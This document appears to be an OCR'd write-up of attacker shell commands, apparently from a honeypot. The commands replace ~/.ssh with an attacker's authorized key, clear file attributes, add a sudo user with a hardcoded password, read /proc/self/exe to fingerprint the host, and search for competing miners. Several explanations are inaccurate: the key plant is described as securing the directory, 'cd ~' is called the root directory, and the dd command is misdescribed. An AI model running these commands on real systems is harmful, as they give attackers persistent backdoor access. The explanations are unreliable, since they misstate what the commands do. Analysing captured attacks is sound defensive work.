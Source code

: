 Here are the inputs contained in the hash 

```bash
cd ~ && rm -rf .ssh && mkdir .ssh && echo 
"ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5
O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9e
LBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQH
md1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5Pm
Uux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && 
chmod -R go= ~/.ssh && cd ~

cd ~; chattr -ia .ssh; lockr -ia .ssh

lockr -ia .ssh
```

- The first command: The script sets up an SSH key for passwordless login by adding it to the `authorized_keys` file. Then, it ensures the ‘**.ssh”** directory is secured by adjusting permissions and possibly changing file attributes to prevent unauthorized modifications.
- The second command: navigates to the root directory, then `chattr -ia .ssh` removes both the immutable and append-only attributes from the `.ssh` directory, allowing for modifications to its contents, such as adding or deleting files within it. The third part of the command uses locker, which is an SSH key management program.    `lockr -ia .ssh`

---

```bash
busybox dd if=$SHELL bs=22 count=1||dd if=/proc/self/exe bs=22 count=1||
while read i;do busybox echo -n $i;done</proc/self/exe||cat /proc/self/exe
```

Attackers use this command to read outputs and copy them to the “/proc/self/exe” directory by trying multiple commands, hence the use of “OR” for fallback methods. 

Usually, attackers pair this command with scripts to ensure their malware/payload could retrieve part of its binary data, even if the data is restricted or monitored.

---

```bash
apt update && apt install sudo curl -y && sudo useradd -m -p 
$(openssl passwd -1 2wnwKBvm) system && sudo usermod -aG sudo system
```

Based on these commands, the attacker seemed to have tried to create a new user and give it administrative privileges. 

---

```bash
ps | grep '[Mm]iner'
ps -ef | grep '[Mm]iner'
```

The attacker tried to look for crypto miners to possibly cryptojack it. Botnet mostly runs these commands. 

---

